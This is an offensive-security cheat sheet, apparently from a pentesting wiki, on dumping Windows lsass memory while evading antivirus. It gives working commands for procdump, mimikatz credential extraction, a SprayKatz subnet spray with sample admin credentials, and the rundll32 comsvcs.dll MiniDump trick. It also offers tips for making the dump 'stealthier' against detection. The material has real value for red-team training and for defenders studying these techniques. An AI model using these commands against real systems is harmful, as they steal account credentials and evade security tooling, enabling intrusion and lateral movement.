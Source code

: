 ## Bypassing AV

### Procdump + Mimikatz

As **Procdump from** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**is a legitimate Microsoft tool**, it's not detected by Defender.   
You can use this tool to **dump the lsass process**, **download the dump** and **extract** the **credentials locally** from the dump.

Dump lsass
```bash
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


Extract credentials from the dump
```c
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```


This process is done automatically with [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Note**: Some **AV** may **detect** as **malicious** the use of **procdump.exe to dump lsass.exe**, this is because they are **detecting** the string **"procdump.exe" and "lsass.exe"**. So it is **stealthier** to **pass** as an **argument** the **PID** of lsass.exe to procdump **instead o**f the **name lsass.exe.**

### Dumping lsass with **comsvcs.dll**

There’s a DLL called **comsvcs.dll**, located in `C:\Windows\System32` that **dumps process memory** whenever they **crash**. This DLL contains a **function** called **`MiniDumpW`** that is written so it can be called with `rundll32.exe`.  
The first two arguments are not used, but the third one is split into 3 parts. First part is the process ID that will be dumped, second part is the dump file location, and third part is the word **full**. There is no other choice.  
Once these 3 arguments has been parsed, basically this DLL creates the dump file, and dumps the specified process into that dump file.  
Thanks to this function, we can use **comsvcs.dll** to dump lsass process instead of uploading procdump and executing it. \(This information was extracted from [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)\)

```text
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```

We just have to keep in mind that this technique can only be executed as **SYSTEM**.
